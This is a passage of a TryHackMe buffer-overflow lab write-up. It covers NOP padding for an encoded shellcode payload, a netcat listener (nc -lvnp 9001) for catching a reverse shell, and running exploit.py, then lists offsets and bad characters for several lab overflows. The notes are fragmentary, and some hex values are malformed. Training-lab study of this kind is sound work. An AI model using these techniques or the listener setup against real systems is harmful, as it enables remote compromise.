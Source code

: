 # Prepend NOPs
Because there was bad chars Shikata_ga_nai encoder was used to generate the payload, so we  will need some Space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" `(\x90)` bytes:

```
padding = "\x90" * 16
```

And we are all set
Now we can start a listener, rerun our program once more and run exploit.py 
```bash
nc -lvnp 9001
# run program 
python3 exploit.py
```

![[Pasted image 20221221185514.png]]
Now we can redo the process for the rest of OVERFLOWs inside the server to answer the rest of the THM room 
Good luck!

# OVERFLOW 5

 BadChars=16,2f,f4,fd


# OVERFLOW 6
1034 offset
00 08 2c 2d ad bad chars


# OVERFLOW 7
offset 1306
bad chars= 
00 8c ae be  fb 

# OVERFLOW 8

1786 offset

badchars=
00 1d 2e c7 c8 ee ef

# OVERFLOW 9

1514 offset 
00 04 3e 3f e1 

# OVERFLOW 10

537 offset 
00 xa0 xad xbe xde xef